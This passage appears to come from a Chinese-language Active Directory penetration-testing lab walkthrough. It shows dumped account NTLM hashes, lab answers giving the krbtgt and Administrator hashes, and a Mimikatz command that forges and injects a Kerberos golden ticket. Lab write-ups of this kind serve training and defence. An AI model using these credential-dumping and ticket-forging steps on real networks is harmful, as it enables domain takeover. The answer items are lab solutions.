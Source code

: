 RID  : 0000045b (1115)
User : srvadmin
LM   :
NTLM : a98e18228819e8eec3dfa33cb68b0728

RID  : 0000045d (1117)
User : appadmin
LM   :
NTLM : d549831a955fee51a43c83efb3928fa7

RID  : 00000461 (1121)
User : mgmtadmin
LM   :
NTLM : 95e2cd7ff77379e34c6e46265e75d754

RID  : 00000462 (1122)
User : svcadmin
LM   :
NTLM : b38ff50264b74508085d82c69794a4d8

RID  : 0000046b (1131)
User : studentadmin
LM   :
NTLM : d1254f303421d3cdbdc4c73a5bce0201

RID  : 00000470 (1136)
User : sql1admin
LM   :
NTLM : e999ae4bd06932620a1e78d2112138c6

RID  : 000003e8 (1000)
User : DCORP-DC$
LM   :
NTLM : 126289c16302fb23b71ec09f0d3d5391
```


问题：NTLM hash of krbtgt
答案：ff46a9d8bd66c6efd77603da26796f35

问题：NTLM hash of domain administrator - Administrator
答案: af0686cc0ca8f04df42210c9ac980760

## 制作金票


使用krbtgt和它的NTML哈希制作金票
```
PS C:\ad> Invoke-Mimikatz -Command '"kerberos::golden /User:Administrator /domain:dollarcorp.moneycorp.local /sid:S-1-5-
21-1874506631-3219952063-538504511 /krbtgt:ff46a9d8bd66c6efd77603da26796f35 id:500 /groups:512 /startoffset:0 /endin:600
 /renewmax:10080 /ptt"'

  .#####.   mimikatz 2.1.1 (x64) built on Nov 29 2018 12:37:56
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo) ** Kitten Edition **
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > http://pingcastle.com / http://mysmartlogon.com   ***/

